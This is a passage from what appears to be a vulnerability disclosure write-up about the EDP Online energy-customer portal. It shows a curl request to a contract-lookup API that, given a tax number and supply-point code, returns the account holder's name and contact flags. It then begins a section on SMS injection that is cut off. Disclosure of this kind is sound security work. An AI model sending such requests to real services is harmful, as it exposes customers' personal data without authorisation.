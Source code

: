 The request needed to exploit this was:

``` shell
curl -X POST \
  https://edponline.edp.pt/api/v2/contract/getContractsToAssociate \
  -H 'cookie: PHPSESSID=YOUR_SESSION' \
  -d '{
        "category": "contract",
        "operation": "getContractsToAssociate",
        "Body": {
          "Nif": "123456789",
          "CPE_CUI": "VALID_CPE_CUI",
          "CIL": null,
          "ContractID": null
        }
      }'
```

The response also revealed some extra information about the account:

``` javascript
{
  "Header": {"errorStatus": null, "errorMsg": null, "Status": null},
  "Body": {
    "Result": {
      "list": [{"Company": "pt.edp.edponline.company.EDPSU"}],
      "found": true,
      "nifHasContacts": false,
      "nifHasEmail": true,
      "nifHasPhone": true,
      "nifHasEDPOnlineRegister": false,
      "name": "JANE ROE",
      "nif": "123456789",
      "previousAuthorizationWaitingApproval": false
    },
    "Success": true
  }
}
```


### SMS Injection

Another neat feature that's available from the platform is the ability to get an SMS message with the latest payment details.

{% include image.html path="edp/sms.png"
   alt="EDP Online SMS feature." caption-no="4" caption="EDP Online SMS feature."
%}

Clicking `Enviar dados via SMS (serviço grátis)` will display a prompt requesting the phone number where the information should be sent to.

{% include image.html path="edp/sms-dialog.png"
   alt="EDP Online SMS dialog." caption-no="5" caption="EDP Online SMS dialog."
%}
